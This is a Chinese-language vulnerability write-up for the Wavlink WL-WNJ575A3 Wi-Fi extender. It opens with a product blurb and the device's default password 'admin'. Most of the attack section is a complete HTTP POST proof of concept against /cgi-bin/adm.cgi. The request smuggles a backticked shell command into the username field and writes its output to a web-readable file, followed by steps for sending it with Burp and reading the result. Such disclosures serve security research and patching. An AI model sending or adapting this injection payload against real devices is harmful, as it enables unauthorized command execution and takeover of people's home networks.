



***简介***

WL-WN575A3是一款便携式插入式Wi-Fi扩展器，双频扩展器搭配双频路由器，2.4GHz和5GHz信号同时发力，覆盖家中每个角落，让Wi-Fi无处不在。WL-WN575A3采用802.11AC双频技术，比标准802.11n速度快了3倍，提供高达300Mbps 2.4G 和 867Mbps 5GHz双频段的无线速率，观看4K电影，在线游戏影音，上网浏览图片，逛朋友圈，手机上网通通都不耽误。默认密码“admin”。文末获取空间测绘搜索语句。

***漏洞描述***

睿因Wavlink WL_WNJ575A3

v.R75A3_V1410_220513 中的问题允许远程攻击者通过 adm.cgi 中 set_sys_adm 函数的用户名参数执行任意代码。

***影响版本***

- 

```
Wavlink WL_WNJ575A3 v.R75A3_V1410_220513
```

***漏洞代码***



***漏洞利用***

POC

```

POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass=12345678
```

1.Burp发包执行命令



2.访问“data.html”查看命令执行结果

